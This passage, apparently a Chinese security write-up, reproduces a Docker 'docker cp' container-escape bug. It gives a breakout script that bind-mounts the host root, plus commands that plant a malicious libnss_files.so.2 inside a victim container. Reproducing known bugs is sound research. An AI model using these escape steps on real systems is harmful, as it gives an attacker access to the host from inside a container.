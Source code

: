 将 procfs 伪文件系统挂载到容器内，将 PID 为 1 的根目录 /proc/1/root 绑定挂载到容器内部即可。

breakout内容：

```shell
#!/bin/bash
mkdir /host_fs
mount -t proc none /proc     # mount the host's procfs over /proc
cd /proc/1/root              # chdir to host's root
mount --bind . /host_fs      # mount host root at /host_fs
```

**创建victim容器：**

```bash
docker run -itd --name=victim ubuntu
```

将 breakout 脚本放到 victim 容器根目录。

```bash
chmod 755 breakout
docker cp ./breakout victim:/breakout
```

进入容器，再将 `/lib/x86_64-linux-gnu` 下的 `libnss_files.so.2` 符号链接指向库文件移动到容器根目录下并重命名为 `original_libnss_files.so.2`

```bash
docker exec -it victim /bin/bash
readlink /lib/x86_64-linux-gnu/libnss_files.so.2
mv /lib/x86_64-linux-gnu/libnss_files.so.2 /original_libnss_files.so.2
```

![image-20211125094737550](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125094737550.png)最后将构建好的恶意 `libnss_files.so` 重命名为 `libnss_files.so.2`，放到容器内 `/lib/x86_64-linux-gnu` 下。

```bash
docker cp ./glibc-2.27/glibc-build/nss/libnss_files.so victim:/lib/x86_64-linux-gnu/libnss_files.so.2
```

![image-20211125095116853](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125095116853.png)

模拟用户执行 docker cp 操作：

```bash
docker cp victim:/etc/passwd ./
```

执行后，漏洞被触发，容器内部已经能看到挂载的 `/host_fs`，其中的 `/etc/hostname` 显示的即为宿主机的 `hostname`。

![image-20211125095325449](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125095325449.png)
